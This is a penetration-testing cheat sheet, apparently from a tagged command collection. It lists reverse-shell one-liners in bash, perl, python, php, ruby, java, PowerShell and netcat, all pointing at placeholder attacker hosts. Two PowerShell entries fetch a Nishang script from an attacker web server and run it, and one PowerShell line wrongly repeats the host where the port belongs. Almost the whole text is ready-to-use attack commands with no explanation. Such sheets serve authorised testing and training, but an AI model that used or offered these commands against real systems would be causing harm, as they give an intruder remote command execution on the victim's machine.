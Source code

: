 # reverse shell

%reverse shell, reverse
#plateform/linux #target/local #cat/ATTACK/REVERSE_SHELL 

## bash - reverse shell
```
bash -i >& /dev/tcp/<lhost>/<lport> 0>&1
```

## perl - reverse shell
```
perl -e 'use Socket;$i="<lhost>";$p=<lport>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## python - reverse shell
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<lhost>",<lport>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## php - reverse shell
```
php -r '$sock=fsockopen("<lhost>",<lport>);exec("/bin/sh -i <&3 >&3 2>&3");'
```

## ruby - reverse shell
```
ruby -rsocket -e'f=TCPSocket.open("<lhost>",<lport>).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

## java - reverse shell
```java
r = Runtime.getRuntime();p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/<lhost>/<lport>;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[]);p.waitFor()
```


## powershell - reverse shell
```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -c  $client = New-Object System.Net.Sockets.TCPClient('<lhost>',<lhost>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

## powershell - reverse shell (nishang)
```powershell
powershell -exec bypass -c "IEX(New-Object NET.WebClient).DownloadString('http://<ip>:<http_port>/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress <ip> -Port <rport>"
```
## powershell - reverse shell (edited nishang)
```powershell
powershell -exec bypass -c "iwr('http://<ip>:<http_port>/Edited-Invoke-PowerShellTcp.ps1')|iex"
```

## nc.exe - powershell reverse shell
```powershell
<nc_path|c:\windows\temp>\nc64.exe -nv <lhost> <lport> -e C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
```

## nc.exe - cmd reverse shell
```powershell
<nc_path|c:\windows\temp>\nc64.exe\nc64.exe -nv <lhost> <lport> -e cmd.exe
```

